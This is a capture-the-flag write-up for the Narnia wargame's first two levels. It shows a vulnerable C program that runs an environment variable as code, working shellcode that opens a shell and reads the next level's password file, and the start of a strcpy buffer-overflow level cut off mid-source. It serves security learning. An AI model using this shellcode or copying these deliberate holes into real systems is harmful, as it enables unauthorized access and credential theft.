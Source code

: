 ## Level 01 ##

{{< highlight c "linenos=table" >}}
#include <stdio.h>

int main(){
	int (*ret)();

	if(getenv("EGG")==NULL){    
		printf("Give me something to execute at the env-variable EGG\n");
		exit(1);
	}

	printf("Trying to execute EGG!\n");
	ret = getenv("EGG");
	ret();

	return 0;
}
{{< / highlight >}}

So here we need to set an environment variable named `EGG` to something
we want executed. We can't just pass `/bin/bash` as it's going to call whatever
we give it as a function. Ideally we want a shell, so what we need in this case
is the shellcode to do just that.

{{< highlight console >}}
narnia1@melinda:/narnia$ export EGG=$(python -c'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"')
narnia1@melinda:/narnia$ ./narnia1
Trying to execute EGG!
$ whoami
narnia2
$ cat /etc/narnia_pass/narnia2
[password]
{{< / highlight >}}

## Level 02 ##

{{< highlight c "linenos=table" >}}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
	char buf[128];

	if(argc == 1){
		printf("Usage: %s argument\n", argv[0]);
		exit(1);
	}
	strcpy(buf,argv[1]);
	printf("%s", buf);

